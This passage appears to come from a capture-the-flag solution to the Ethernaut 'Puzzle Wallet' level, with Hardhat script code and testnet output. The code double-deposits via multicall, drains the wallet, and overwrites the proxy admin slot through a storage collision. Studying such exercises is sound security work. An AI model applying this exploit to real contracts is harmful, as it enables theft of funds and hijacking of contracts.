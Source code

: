 ```javascript
    // execute double deposit with single value
    tx = await contract.connect(account).multicall([depositCallData, multicallCallData], {value: contractBalance})
    receipt = await tx.wait()

    await printState(proxy, contract, account)

    // drain wallet from funds to unlock setMaxBalance functionality
    contractBalance = await ethers.provider.getBalance(contract.address)
    tx = await contract.connect(account).execute(account.address, contractBalance, "0x")
    receipt = await tx.wait()

    await printState(proxy, contract, account)

    // set maxBalance in PuzzleWallet which overlaps admin slot in PuzzleProxy to account address
    tx = await contract.connect(account).setMaxBalance(account.address)
    receipt = await tx.wait()

    await printState(proxy, contract, account)
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/puzzle-wallet-solve.js --network rinkeby
Level address: 0x0191F190ADFdE3C418D9742d8b0C80Ca57e4Ec4e
Proxy pendingAdmin: 0xe13a4a46C346154C41360AAe7f070943F67743c9
Proxy admin       : 0xe13a4a46C346154C41360AAe7f070943F67743c9
Wallet owner      : 0xe13a4a46C346154C41360AAe7f070943F67743c9
Wallet maxBalance : 1285822837045366655748890655763751218771536593865
Wallet Balance    : 1000000000000000
Account Balance   : 0

Proxy pendingAdmin: 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
Proxy admin       : 0xe13a4a46C346154C41360AAe7f070943F67743c9
Wallet owner      : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
Wallet maxBalance : 1285822837045366655748890655763751218771536593865
Wallet Balance    : 1000000000000000
Account Balance   : 0

Proxy pendingAdmin: 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
Proxy admin       : 0xe13a4a46C346154C41360AAe7f070943F67743c9
Wallet owner      : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
Wallet maxBalance : 1285822837045366655748890655763751218771536593865
Wallet Balance    : 2000000000000000
Account Balance   : 2000000000000000

Proxy pendingAdmin: 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
Proxy admin       : 0xe13a4a46C346154C41360AAe7f070943F67743c9
Wallet owner      : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
Wallet maxBalance : 1285822837045366655748890655763751218771536593865
Wallet Balance    : 0
Account Balance   : 0

Proxy pendingAdmin: 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
Proxy admin       : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
Wallet owner      : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
Wallet maxBalance : 101221158531952969135484184365980688453888190317
Wallet Balance    : 0
```